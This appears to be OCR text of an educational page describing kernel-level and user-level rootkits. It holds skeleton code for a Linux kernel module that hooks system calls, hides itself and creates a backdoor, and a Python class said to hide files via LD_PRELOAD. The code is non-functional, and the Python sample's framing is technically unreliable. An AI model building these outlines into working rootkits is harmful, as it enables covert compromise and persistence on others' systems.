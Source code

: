 **Types:**

**1. Kernel-level Rootkits:**
```c
// Kernel module rootkit
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>

static int __init rootkit_init(void) {
    // Hook system calls
    hook_syscalls();
    
    // Hide kernel module
    hide_module();
    
    // Establish backdoor
    create_backdoor();
    
    return 0;
}

static void __exit rootkit_exit(void) {
    // Restore original system calls
    restore_syscalls();
    
    // Remove backdoor
    remove_backdoor();
}
```

**2. User-level Rootkits:**
```python
# User-space rootkit using LD_PRELOAD
import os
import ctypes

class UserlandRootkit:
    def __init__(self):
        self.original_functions = {}
        self.hidden_processes = set()
        self.hidden_files = set()
    
    def hook_library_functions(self):
        # Hook libc functions
        self.hook_function('readdir', self.hooked_readdir)
        self.hook_function('open', self.hooked_open)
        self.hook_function('stat', self.hooked_stat)
    
    def hooked_readdir(self, dirp):
        # Hide specific files/directories
        result = self.original_functions['readdir'](dirp)
        if result and result.d_name in self.hidden_files:
            return self.hooked_readdir(dirp)  # Skip hidden file
        return result
```
